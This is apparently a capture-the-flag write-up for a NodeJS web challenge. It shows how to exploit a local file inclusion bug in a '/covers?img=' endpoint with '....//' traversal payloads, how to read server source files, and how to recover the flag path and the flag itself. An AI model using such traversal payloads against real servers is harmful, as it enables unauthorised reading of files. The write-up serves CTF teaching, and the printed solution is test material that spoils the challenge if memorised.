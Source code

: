 Source code should not be initially provided to the player for this challenge. However, package.json will mention the NodeJS version used in the Dockerfile (node:16.15.0-alpine), as the process.versions.v8 is dependent on using the correct NodeJS version.

# Step 1: Discovering LFI

To solve this challenge, check the network log to see requests to `/covers?img=${FILENAME}`. This GET request is vulnerable to a LFI filter bypass based on exploiting non-recursive stripping of the query.

Ex. `....//....//file.txt` can be used to access `../../file.txt`.

An interesting trick to discover the sanitization function is to make a GET request to `/covers?img[]=gatsby.jpg`, which returns an error message:

```
TypeError: img.replaceAll is not a function
    at /app/super_obvious_main_file_name.js:58:13
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:144:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:114:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:284:15
    at Function.process_params (/app/node_modules/express/lib/router/index.js:346:12)
    at next (/app/node_modules/express/lib/router/index.js:280:10)
    at jsonParser (/app/node_modules/body-parser/lib/types/json.js:110:7)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
```

# Step 2: Using LFI to Find the Source Code

Using this exploit, the player will locate `/covers?img=....//....//package.json`. This will reveal the name of the main file (which would typically be `index.js`), `super_obvious_main_file_name.js`

Alternatively to get the filename `super_obvious_main_file_name.js`, you can make the application throw an error containing the filename by accessing a URL such as: `https://utoronto-ctf1-web-library.chals.io/covers?img=.\`

Using this exploit, the player will locate `/covers?img=....//....//index.js`.

Reading the source code, the player discovers an imported function, `SETUP`, from `./setup/setup.js`.

This file can be viewed by accessing `/covers?img=....//....//setup/setup.js`.

# Step 3: Finding The Flag Location

The `SETUP` function runs when the server starts, and moves the flag.txt file from the main application directory to a new path. At first, it appears that the path is random, because of the use of `crypto.randomBytes`. However, this function is not actually being called. So, the `.toString('hex')` call actually is returning the body of the function. The `.slice(0, 48)` is just taking the function name.

In the `package.json`, it's given that the version of NodeJS is:

```
"engines": {
    "node": "16.15.0"
  }
```

The user must use this version of NodeJS to get the correct result of `process.versions.v8` (that is, `9.4.146.24-node.20`).

Therefore, after importing the required dependencies, a player can use their terminal or a test project to run `"new_"+process.versions.v8+md5(btoa(crypto.randomBytes.toString("hex")).slice(0,48));` to produce the result:

`new_9.4.146.24-node.20bc5a5c11b6c1e4240f76c48501630e9e`

Using the same LFI technique as before, the player accesses: `/covers?img=....//....//new_9.4.146.24-node.20bc5a5c11b6c1e4240f76c48501630e9e/flag.txt` to obtain the flag: `uoft{N0T_S0_R4ND0M_EH?}`
